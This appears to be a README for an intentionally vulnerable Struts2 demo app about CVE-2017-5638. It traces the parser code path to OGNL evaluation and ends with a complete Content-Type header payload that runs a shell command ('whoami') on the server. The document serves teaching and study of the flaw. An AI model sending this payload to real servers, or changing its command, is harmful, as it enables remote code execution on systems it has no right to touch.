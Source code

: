 # Apache Struts2 Vulnerability | CVE-2017-5638 | Struts2 Version 2.5

## Instructions

To simply run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

## The Breakdown

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGLN expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OglnTextParser.class, which simply interprets the OGLN expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPartRequest.class parser method
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

The OGLN expression from the Content-Header is then passed into the 'parse' method.

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

During the parsing attempt, an exception is thrown as it is unable to parse the OGLN expression, and ends up in JakartaMultiPartRequest.class buildError method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The buildError method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class findText method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The LocalizedTextUtil.class findText method will in turn call getDefaultMessage and pass in the Content-Header information

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class translateVariables method delegates to the OglnTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGLN expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

### The Payload
This payload was pulled from ![Talos Intelligence](http://blog.talosintelligence.com/2017/03/apache-0-day-exploited.html)

The payload can be executed through CURL or POSTMAN

Content-Type :  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
                      
                      